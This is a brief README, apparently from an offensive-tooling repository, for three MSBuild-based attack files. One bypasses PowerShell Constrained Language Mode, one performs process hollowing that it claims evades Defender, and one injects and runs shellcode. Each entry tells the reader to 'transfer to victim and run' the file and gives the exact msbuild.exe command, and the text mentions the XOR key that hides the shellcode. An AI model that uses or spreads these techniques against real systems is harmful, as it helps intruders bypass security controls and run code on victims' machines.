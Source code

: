 ### CLM Bypass
- The source file `clm-bypass.xml` can be used to bypass CLM and obtain FullLanguage mode within the same session, transfer to victim and run: 
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe clm-bypass.xml`

### Process Hollowing
- The file `hollow.xml` can be used to perform process hollowing, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe hollow.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

### Shellcode Runner
- The file `shellcodeRunner.xml` used to inject and execute shellcode to the current process, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe shellcodeRunner.xml`
